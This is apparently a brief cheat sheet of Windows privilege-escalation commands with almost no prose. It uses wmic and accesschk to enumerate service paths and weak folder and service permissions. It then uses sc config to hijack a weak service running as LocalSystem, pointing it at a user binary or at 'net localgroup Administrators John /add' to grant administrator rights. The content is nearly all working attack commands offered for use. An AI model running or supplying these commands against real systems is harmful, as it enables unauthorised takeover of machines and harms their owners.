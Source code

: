 wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

accesschk.exe /accepteula 
```
#Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "John" c:\
```
```
#Find all weak folder permissions per drive.
 accesschk.exe -uwdqs Users c:\
 accesschk.exe -uwdqs "Authenticated Users" c:\
```
```
#Check what access authenticated users have to services.
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "John" *
```
```
sc config WeakService3 binpath= "C:\Users\John\Desktop\protect.exe"
sc config WeakService3  obj= ".\LocalSystem" password= ""
sc config WeakService3  start= "demand"
net start WeakService3
```
```
sc config WeakService3  binpath= "net localgroup Administrators John /add"
sc config WeakService3  obj= ".\LocalSystem" password= ""
sc config WeakService3  start= "demand"
```
